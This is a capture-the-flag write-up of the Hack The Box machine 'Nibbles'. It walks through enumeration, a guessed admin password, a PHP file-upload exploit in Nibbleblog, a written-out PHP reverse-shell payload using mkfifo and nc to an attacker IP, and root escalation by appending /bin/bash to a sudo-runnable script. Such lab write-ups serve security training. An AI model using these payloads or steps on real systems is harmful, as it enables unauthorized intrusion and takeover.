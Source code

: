 # Hackthebox - Nibbles

- Linux

![Nibbles](../.res/HTB-Nibbles.png)  

- [Box on HTB](https://app.hackthebox.com/machines/Nibbles)

## Nmap

```bash
sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.75 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-10 17:33 EST
Nmap scan report for 10.10.10.75
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/10%OT=22%CT=1%CU=30372%PV=Y%DS=2%DC=I%G=Y%TM=63E6C67
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.58 seconds

```

## Port 80

- If we browse there we have an hello world.
- If we check the source code, we have an interesting comment

![comment](../.res/2023-02-10-17-45-40.png)

- This brings us here  

![nibbleblog](../.res/2023-02-10-17-47-06.png)

- Let's see what info we have with whatweb  

![whatweb](../.res/2023-02-11-08-01-55.png)

### Enumerate dir in nibbleblog

```bash
┌─[gabrielle@parrot]─[~/Documents/nibbles]
└──╼ $gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/11 08:07:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                          
/.htaccess            (Status: 403) [Size: 306]                                           
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                              
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]   
                                                                                              
===============================================================
2023/02/11 08:07:22 Finished
===============================================================
```

- Admin

![admin](../.res/2023-02-11-08-14-08.png)  

- Readme

![readme](../.res/2023-02-11-08-15-06.png)

- Content

![Content](../.res/2023-02-11-08-56-30.png)

- Plugins

![Plugins](../.res/2023-02-11-08-57-04.png)

- Thèmes

![Thèmes](../.res/2023-02-11-08-57-51.png)

- Admin.php

![Admin](../.res/2023-02-11-09-48-36.png)

- We also find multiple xml files. The users.xml and config.xml seem interesting

- Users

```xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

- Config

```xml
<config>
<name type="string">Nibbles</name>
<slogan type="string">Yum yum</slogan>
<footer type="string">Powered by Nibbleblog</footer>
<advanced_post_options type="integer">0</advanced_post_options>
<url type="string">http://10.10.10.134/nibbleblog/</url>
<path type="string">/nibbleblog/</path>
<items_rss type="integer">4</items_rss>
<items_page type="integer">6</items_page>
<language type="string">en_US</language>
<timezone type="string">UTC</timezone>
<timestamp_format type="string">%d %B, %Y</timestamp_format>
<locale type="string">en_US</locale>
<img_resize type="integer">1</img_resize>
<img_resize_width type="integer">1000</img_resize_width>
<img_resize_height type="integer">600</img_resize_height>
<img_resize_quality type="integer">100</img_resize_quality>
<img_resize_option type="string">auto</img_resize_option>
<img_thumbnail type="integer">1</img_thumbnail>
<img_thumbnail_width type="integer">190</img_thumbnail_width>
<img_thumbnail_height type="integer">190</img_thumbnail_height>
<img_thumbnail_quality type="integer">100</img_thumbnail_quality>
<img_thumbnail_option type="string">landscape</img_thumbnail_option>
<theme type="string">simpler</theme>
<notification_comments type="integer">1</notification_comments>
<notification_session_fail type="integer">0</notification_session_fail>
<notification_session_start type="integer">0</notification_session_start>
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
<seo_site_description type="string"/>
<seo_keywords type="string"/>
<seo_robots type="string"/>
<seo_google_code type="string"/>
<seo_bing_code type="string"/>
<seo_author type="string"/>
<friendly_urls type="integer">0</friendly_urls>
<default_homepage type="integer">0</default_homepage>
</config>
```

- This confirm that a user named admin exist.
- We can not bruteforce because of the IP blacklist that is set as a protection.
- The word nibbles frequently comes back. Let's try it as a password for admin. It works.

![admin panel](../.res/2023-02-11-10-16-11.png)  

- While looking for info on nibbleblog we found a CVE: `CVE-2015-6967`
- It is also worth having a look around
- This way we find a plugin "My image" that allows us to upload files

![plugin](../.res/2023-02-11-10-27-58.png)

- Let's try to upload a php file and see if it gets executed. Here is our php file

![php](../.res/2023-02-11-10-35-51.png)

- The file seems to be uploaded when we explored the files previously there was a content directory, so our file is probably there somewhere let's have a look. Yes there is a new image.php file here

![image](../.res/2023-02-11-10-39-04.png)

- And our command (ls) works, we have command execution!

![ls](../.res/2023-02-11-10-39-48.png)

- We could do a webshell. But let's try for a reverse shell.
- Let's edit our previous file `<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444) >/tmp/f'); ?>`

![reverse shell](../.res/2023-02-11-10-42-43.png)

- We now need to set a listener `rlwrap nc -lnvp 4444`
- We get a shell
- We can make it a little better with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and grab the user flag.
![shell](../.res/2023-02-11-10-52-27.png)
- Along with the flag we have zip `personal.zip` that seems interesting for later.

![ls](../.res/2023-02-11-10-56-02.png)

## Privilege escalation

- Let's have a look at the zip file. There is stuff folder with a bash script inside

![bash script](../.res/2023-02-11-11-42-24.png)  

- Using `sudo -l` we see that we are able to run it as root

![run as root](../.res/2023-02-11-11-45-56.png)

- Let's add this in our script this will launch bash as root and should allow us to get root `/bin/bash` `echo '/bin/bash' | tee -a /home/nibbler/personal/stuff/monitor.sh`.
- Indeed if we `sudo /home/nibbler/personal/stuff/monitor.sh` we get root and can grab the last flag

![root](../.res/2023-02-11-11-50-37.png)
